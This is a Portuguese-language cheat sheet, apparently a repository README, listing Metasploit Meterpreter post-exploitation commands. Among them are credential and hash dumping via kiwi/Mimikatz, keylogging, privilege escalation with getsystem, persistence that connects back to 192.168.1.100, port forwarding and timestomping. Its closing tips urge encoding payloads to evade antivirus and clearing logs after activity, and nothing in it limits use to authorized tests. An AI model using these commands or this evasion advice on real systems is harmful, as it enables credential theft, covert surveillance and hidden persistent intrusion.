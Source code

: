 ## O que é Meterpreter?
**Meterpreter** (Meta-Interpreter) é um payload avançado e dinâmico do Metasploit que fornece um shell interativo com amplas capacidades de pós-exploração.

## Comandos Principais por Categoria

### 1. COMANDOS BÁSICOS DO SISTEMA

```bash
# Navegação e informações do sistema
pwd                    # Mostra diretório atual
getwd                  # Mostra diretório de trabalho
cd [diretório]         # Muda diretório
ls                     # Lista arquivos
cat [arquivo]          # Exibe conteúdo do arquivo

# Informações do sistema
sysinfo                # Informações do sistema operacional
getuid                 # Mostra usuário atual
getpid                 # Mostra ID do processo
ps                     # Lista processos em execução
```

### 2. COMANDOS DE ARQUIVOS

```bash
# Manipulação de arquivos
download [arquivo]     # Baixa arquivo da máquina alvo
upload [arquivo]       # Envia arquivo para a máquina alvo
edit [arquivo]         # Edita arquivo com editor padrão
rm [arquivo]           # Remove arquivo
mkdir [diretório]      # Cria diretório
rmdir [diretório]      # Remove diretório
search -f [padrão]     # Busca arquivos por padrão
```

### 3. COMANDOS DE REDE

```bash
# Informações de rede
ipconfig/ifconfig      # Mostra configurações de rede
netstat                # Exibe conexões de rede
route                  # Mostra tabela de roteamento
arp                    # Exibe tabela ARP

# Port forwarding
portfwd add -l [porta_local] -p [porta_remota] -r [ip_alvo]
portfwd list           # Lista encaminhamentos ativos
portfwd delete         # Remove encaminhamento
```

### 4. COMANDOS DE PRIVILÉGIOS

```bash
# Escalação de privilégios
getsystem              # Tenta elevar privilégios para SYSTEM
getprivs               # Mostra privilégios disponíveis
run post/windows/gather/smart_hashdump  # Extrai hashes SAM
```

### 5. COMANDOS DE KEYLOGGING

```bash
# Captura de teclas
keyscan_start          # Inicia keylogger
keyscan_dump           # Mostra teclas capturadas
keyscan_stop           # Para keylogger
```

### 6. COMANDOS DE MIGRAÇÃO DE PROCESSO

```bash
# Migração entre processos
migrate [PID]          # Migra para outro processo
run post/windows/manage/migrate  # Migração automática
```

### 7. COMANDOS DE PERSISTÊNCIA

```bash
# Persistência no sistema
run persistence -h     # Mostra opções de persistência
run metsvc             # Instala serviço Meterpreter
run getgui -e          # Habilita RDP
```

### 8. COMANDOS DE RECONHECIMENTO

```bash
# Coleta de informações
run post/windows/gather/checkvm           # Verifica se é VM
run post/multi/gather/env                 # Coleta variáveis de ambiente
run post/windows/gather/enum_applications # Lista aplicações instaladas
```

### 9. COMANDOS DE SHELL

```bash
# Interação com sistema
shell                  # Abre shell do sistema
execute -f [arquivo]   # Executa arquivo
execute -f cmd -i      # Executa cmd interativamente
```

### 10. COMANDOS AVANÇADOS

```bash
# Módulos avançados
load [extensão]        # Carrega extensões (python, powershell, etc.)
load kiwi              # Carrega Mimikatz
creds_all              # Mostra todas as credenciais (após carregar kiwi)

# Timestomp
timestomp [arquivo] -h # Manipula timestamps de arquivos
```

### 11. COMANDOS DE SAÍDA

```bash
# Gerenciamento da sessão
background             # Coloca sessão em segundo plano
sessions -i [ID]       # Retorna para sessão específica
exit                   # Encerra sessão Meterpreter
```

## Exemplos Práticos Comuns

### 1. Coleta de Hashes
```bash
getsystem
load kiwi
creds_all
hashdump
```

### 2. Persistência Básica
```bash
run persistence -U -i 60 -p 443 -r 192.168.1.100
```

### 3. Port Forwarding
```bash
portfwd add -l 3389 -p 3389 -r 192.168.1.50
```

### 4. Keylogging
```bash
keyscan_start
# Aguarde usuário digitar...
keyscan_dump
keyscan_stop
```

## Dicas Importantes

1. **Sempre migre** para um processo estável após acesso
2. **Use encoding** para evitar detecção por antivírus
3. **Limpe logs** após atividades
4. **Use HTTPS** para comunicações
5. **Monitore recursos** do sistema alvo
